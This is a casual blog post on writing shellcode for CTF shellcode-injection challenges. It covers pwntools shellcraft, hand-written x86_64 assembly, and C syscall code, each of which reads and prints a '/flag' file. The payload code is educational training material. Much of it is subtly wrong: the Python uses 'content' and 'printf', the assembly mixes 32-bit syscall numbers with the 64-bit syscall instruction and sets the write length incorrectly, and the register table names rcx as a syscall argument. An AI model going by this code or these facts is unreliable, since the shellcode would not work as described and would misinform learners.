 ```yaml
---
layout: post
title: How to Write Shellcode for Shellcode Injection and Simplify Assembly Code Development
subtitle: Learn through First principles c
gh-repo: muchiking.github.io/
# gh-badge: [star, fork, follow]
tags: [cybersecurity.binary,pwn]
comments: true
---
```


# How to Write Shellcode for Shellcode Injection and Simplify Assembly Code Development

Shellcode injection is a powerful technique that allows the injection and execution of custom code within a target process. In this blog post, we'll explore different approaches to writing shellcode and discuss methods to streamline the development of assembly code.


# way one

## The Power of Pwntools: Crafting Shellcode with Python

One of the easiest ways to write shellcode is by using the Python library called pwntools. Pwntools provides a rich set of features to simplify exploit development, including a module called shellcraft, which helps in crafting shellcode for various operations.

Here's an example of using pwntools and shellcraft to generate shellcode that reads and prints the contents of the "/flag" file:

```
from pwn import *
content.update(arch="amd64")
pay=(asm(shellcraft.cat('/flag')))
printf(pay=(asm(shellcraft.cat('/flag'))))
```




By leveraging pwntools and shellcraft, you can easily generate shellcode for different operations, such as file manipulation, network communication, or privilege escalation.


hoold up that's not the end some of us do not want peace.
all in all  its best to have multiple ways to do things since you may want a functionality that is not implemented by pwn tools 

# way two 

## Hardcoding Assembly: Fine-grained Control and Understanding

### directly hard code it using assembly like the chad you are 

For those seeking more control and a deeper understanding of the inner workings of shellcode, hardcoding assembly instructions can be a viable approach. Let's take a closer look at the assembly code for opening, reading, and writing a file using the x86_64 architecture:

```
global _start
section .text

_start:
    ; Open the file
    mov eax, 0x5   ; sys_open system call number
    mov edi, filename
    mov esi, 0     ; flags (O_RDONLY)
    xor edx, edx   ; mode (permissions)
    syscall

    ; Read from the file
    mov ebx, eax   ; file descriptor
    mov eax, 0x3   ; sys_read system call number
    mov edi, ebx   ; file descriptor
    lea esi, [rsp] ; buffer address
    mov edx, 0x100 ; buffer size
    syscall

    ; Write to STDOUT
    mov eax, 0x4   ; sys_write system call number
    mov edi, 1     ; STDOUT file descriptor
    mov edx, eax   ; bytes to write
    syscall

    ; Exit the program
    mov eax, 0x1   ; sys_exit system call number
    xor ebx, ebx   ; exit status
    syscall

section .data
    filename db "/flag",0

```

By directly working with assembly code, you have fine-grained control over the instructions and can better understand the interactions between the operating system and your code.

save it as a dot .s file eg thanksforreadintheblog.s
then compile it with the -nostdlib flag
```
gcc -nostdlib -o thanksforreadintheblog thanksforreadintheblog.s
```

though assembly is for chads it lacks documentation

the best documentation out there are x86_64 syscals tables
![[Pasted image 20230713211214.png]]

as you can see they are not that clear like the flags to open the files i found it from linux kernel files written by the world wide wwe heavy weight champion  Linus Torvald  

and that is why we have to be smart
the smartest way to move is by the use of c and yes you do not need to learn programming to be a hacker.

#  part way 3 and way 4 

## Using C to Implement binary: Streamlining the Process

While writing shellcode in assembly can be powerful, it can also be time-consuming. A more efficient approach is to leverage the capabilities of C programming to implement shellcode using system calls. The POSIX standard provides a common interface for system calls across different Unix-like operating systems.

we will be using the posix standard since it is a standard that is followed by all who want to interact with the kernel

the defination by onchan chat gpt is that posix is 
```
POSIX stands for "Portable Operating System Interface." It is a set of standards that define the application programming interface (API), shell interface, and utility interfaces for software compatibility between different Unix-like operating systems. POSIX-compliant systems provide a common framework for developing and executing software, allowing programs written for one POSIX-compliant operating system to run on another without significant modifications.

```

this is how you implement it

![[Pasted image 20230713213655.png]]

after compiling you can get the assembly code by running objdump on the compiled binary 

![[Pasted image 20230713214331.png]]





![[Pasted image 20230713221523.png]]

as you can see this registers match appart from rax 

from the compiled binary you just replace call with syscall and eax with the call number  by doing this you save yourself a lot of time reading man pages 

The fourth

the easiest way to do this is by using a direct syscall in c eg

```
#include <sys/fcntl.h>
#include <sys/unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/syscall.h>
// #include <sys/syscall.h>

#define BUFSIZE 4096


void main(){
char buffer[BUFSIZE];
ssize_t bytesRead;
ssize_t bytesWritten;
int fd;
fd=syscall(SYS_open,"/flag",O_RDONLY);
bytesRead = syscall(SYS_read, fd, buffer, BUFSIZE);
bytesWritten = syscall(SYS_write, STDOUT_FILENO, buffer, bytesRead);
syscall(SYS_close, fd);
}
```

the assembly code generated looks like this
![[Pasted image 20230713220301.png]]


this is syntax used in to pass values that are soon to be executed by a function in assembly.

```
rax: caries return values also carries syscal values usaly the 0 argument
rdi:    First Argument
rsi:    Second Argument
rdx:    Third Argument
rcx:    Fourth Argument
r8:     Fifth Argument
r9:     Sixth Argument
```


since in the c files the syscall function takes more operators one extra argument is added that pushes things to the next rargument register so to reverse this you just mov arguments one regsiter back eg 

what is in rdi goes to rax, what is in rsi to rdi  then on and on.
the good thing about this method is that you do not need to check the syscall table thus saves you more time. 


Thank you for taking the time to read through this blog post. I would like to express my gratitude to the pwn.collage for their valuable training and challenging experiences, which have contributed to my understanding of shellcode injection.

I hope you found this blog post informative and helpful. If you have any further questions or need assistance, please feel free to reach out. Have a great day ahead!
